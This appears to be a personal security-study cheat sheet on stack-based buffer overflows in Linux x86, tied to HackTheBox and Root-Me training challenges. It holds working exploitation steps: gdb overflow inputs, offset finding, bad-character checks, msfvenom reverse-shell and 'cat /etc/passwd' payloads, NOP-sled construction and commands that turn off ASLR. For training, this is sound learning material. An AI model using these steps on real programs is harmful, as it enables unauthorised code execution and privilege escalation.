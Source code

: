 # Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)

<div class="row row-cols-lg-2"><div>

Buffers overflows occur when a user is able to inject more data that the system can handle, resulting in an overflow.

By overriding data, the user may be able to control and modify the program behavior, such as executing malicious code.

A buffer overflow can be categorized in

* **Stack-based** Buffer Overflow 🗃️
* **Heap-based** Buffer Overflow 🌱

This attack is very specific to the targeted executable.

```shell!
$ file some_executable
```
</div><div>

Buffers overflows are less common nowadays, mostly due to the implementation of several security mechanisms.

* 🪤 **Data Execution Prevention** (DEP)/**NX bit**: mark as "read-only" memory regions where user input is stored such as the stack
* 🛣️ **Address Space Layout Randomization** (ASLR): randomize where everything is stored to make ROP attacks harder
* 🦆 **Canaries**/**Stack Guard**: add a known value to the stack between user input and control data to detect buffer overflows

📚 IoT and Embedded devices are a common target as they often use low-level vulnerable languages such as `C` or `C++`.
</div></div>

<hr class="sep-both">

## Stack-based Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)
[![elf_x86_stack_buffer_overflow_basic_1](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_1.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1)
[![getting_started](../../../../_badges/htb-c/getting_started.svg)](https://app.hackthebox.com/challenges/getting-started)
[![questionnaire](../../../../_badges/htb-c/questionnaire.svg)](https://app.hackthebox.com/challenges/Questionnaire)

<div class="row row-cols-lg-2"><div>

#### Find An Attack Vector

Identify vulnerable functions such as the following C functions:

* `strcpy`, `strcat`
* `sprintf`, `vsprintf`
* `gets`/`fgets`
* `scanf`/`fscanf`/`sscanf`/`vscanf`/`vsscanf`/`vfscanf`
* `realpath`/`index`/`getopt`/`getpass`/`strecpy`/`streadd`/`strtrns`
* ...

Each function or function call may not be exploitable.

#### Take Over The Instruction Pointer

When a program calls a function, it stores the instruction pointer (`EIP`/`RIP`) to the stack. We can exploit a buffer overflow to take it over.

All commands below inject a lot of `A` to stdin <small>(assuming stdin in the vulnerable vector)</small>. The ideal result is the program crashing with the message `0x41414141 in ?? ()` which means we took over the EIP.

We can use [GDB](/programming-languages/low-level/compilers/gnu/gdb.md) on Linux:

```text!
(gdb) run <<< $(python2 -c "print '\x41' * 1000")
(gdb) run <<< $(python2 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(python3 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(perl -e 'print "\x41"x1000')
(gdb) run <<< $(perl -e 'print "\x41"x1000 . "A"')
(gdb) run <<< $(printf '\x41%.0s' {1..1000})
0x41414141 in ?? ()
```

⚠️ Python3 doesn't behave as we expect for many characters.

#### Determine The Offset

We want to determine when did we override the EIP. Generate a pattern with metasploit. Run the program with the given bytes, note the EIP, and pass the EIP to metasploit to find the exact offset.

```shell!
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
<some pattern>
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xYOUR_NEW_EIP
offset
```
Going back to gdb, we should be able to arbitrary set the EIP:

```text!
(gdb) run <<< $(python2 -c "print( '\x41' * (offset) + '\x66\x66\x66\x66' )")
EIP uses 0x66666666 in ?? ()
```

📚 Alternatively, look for the `EBP`/`RBP` register's value.
</div><div>

Quick reminder, for x64, the EIP is 8-bits long.

<br>

#### Injecting A ShellCode

We can now generate a shellcode, inject it, and make the EIP point to our code. Just in case, we usually add NOPs (`\x90`) before our payload. We also want to identify "bad characters":

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - 256) + '$(for i in {0..255}; do printf "\\\x%02x" $i;done)' + '\x66\x66\x66\x66')")
(gdb) x/2000xb $esp+0
```

Look at the end of your `\x41` for missing values in your charset.

We can use msfvenom to generate a payload:

* Reverse Shell <small>(you can use `127.0.0.1` and a local listener)</small>

```shell!
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

* Execute a command such as `cat /etc/passwd`

```shell!
$ msfvenom -p linux/x86/exec cmd="cat /etc/passwd" --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

To test your payload:

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
(gdb) x/2000xb $esp+0
```

The EIP can be a line of NOPs, or a line of NOPs with your code. ⚠️ Remember that there is a notion of endianness in addresses.

**Important Note** ⚠️: GDB is good for testing your payloads, but it executes the binary in your context, meaning you cannot elevate to another user. You need to execute the binary outside of GDB:

```shell!
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )")
$ (python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )" ; cat -) | ./my_program
```

The last command with `cat`/`cat -` keep stdin open if you need that.
</div></div>

<hr class="sep-both">

## Random Notes

<div class="row row-cols-lg-2"><div>

#### Reuse addresses in shellcode

Find the current address of the `SHELL` environment variable.

```shell!
$ sudo apt-get install gdb
$ gdb -ex 'start' --args /bin/bash
$ # 'SHELL' might not be at the same index ('0') for you
$ x/s *((char **)environ+0)
0xffffe23a: "SHELL=/bin/bash"
```
</div><div>

#### Use Python To Build Payloads

You can use the following code to convert an address (`0xAABBCCDD`) to a payload address (`\xDD\xCC\xBB\xAA`):

```py
import struct
x = struct.pack("I" , 0xAABBCCDD)
y = struct.pack("I" , 0xEEFF0011)
print(x + y) # '\xdd\xcc\xbb\xaa\x11\x00\xff\xee'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `CVE-2021-3156` in sudo
* Attack: make the program crash (benign)
* Return Oriented Programming (ROP)
* Read Only relocations (RelRO) - read-only headers
* Position Independent Executable (PIE) - randomizes the base address of the binary
* binary can be stripped or not (reduce size)
* `Heap => go from the 0x0 to 0xf. Start at the end of .bss in x86.`, `Stack => go from 0xf to 0x0`.
</div><div>

* [vulnserver](https://github.com/stephenbradshaw/vulnserver)

```
# disable ASLR
sudo echo 0 > /proc/sys/kernel/randomize_va_space
# compile 32-bit ELF binary (no DEP)
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m32
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m64
```
</div></div>